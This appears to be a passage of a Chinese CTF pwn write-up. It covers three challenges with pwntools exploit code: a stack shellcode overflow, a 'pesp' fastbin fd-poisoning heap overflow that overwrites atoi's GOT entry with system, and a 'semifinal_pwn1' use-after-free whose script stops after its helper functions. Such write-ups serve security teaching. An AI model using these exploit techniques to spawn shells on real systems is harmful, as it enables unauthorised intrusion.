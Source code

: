 ```python
ru('0x')
buf = int(ru('\n'),16)
payload = asm(shellcraft.sh()).ljust(0x4c,'a') + p32(buf)
sla('?',payload)
```

## pesp

编辑时新的 size 并没有作检查，导致可以堆溢出。利用堆溢出修改空闲 fast chunk 的 `fd`，手动造成 uaf，借助假的 `0x7f` 伪造 chunk 分配到 `itemlist` 上方从而修改 `itemlist` 中的内容指针达到任意地址写，泄露 libc 后覆盖 `atoi` 为 `system`。

```python
fake = 0x6020ad
add(0x60)
add(0x60)
free(1)

edit(0,0x100,flat('a'*0x60,0,0x71,fake))
add(0x60) # 1
add(0x60, flat('a'*3, 0x100, elf.got['atoi']))
show()
ru(':')
atoi = uu64(r(6))
base,libc,system = leak_libc('atoi',atoi,libc)
edit(0,0x8,p64(system))
sla(':', '/bin/sh\x00')
```

## semifinal_pwn1

本题功能比较复杂，关键在于自己可以添加自己为好友，然后删除自己时就可以释放内存。而每个用户都会分配一块 0x130 的 chunk，释放后进入 unsorted bin。随后就可以利用 uaf 泄露 libc 并借助 `update` 功能覆盖 got 表。

```python
def reg(size,name):
    sla('choice:',2)
    sla(':',size)
    sla(':',name)
    sla(':',20)
    sla(':','desc')

def login(name):
    sla('choice:',1)
    sla(':',name)

def logout():
    sla('choice:',6)

def add_free(name,choice):
    sla('choice:',3)
    sla(':',name)
    sla('(a/d)', choice)

def view_profile():
    sla('choice:',1)

def edit(name):
    sla('choice:',2)
    sa(':', name)
    sla(':',20)
    sla(':','desc')

reg(8,'a'*6)
reg(8,'b'*6)
```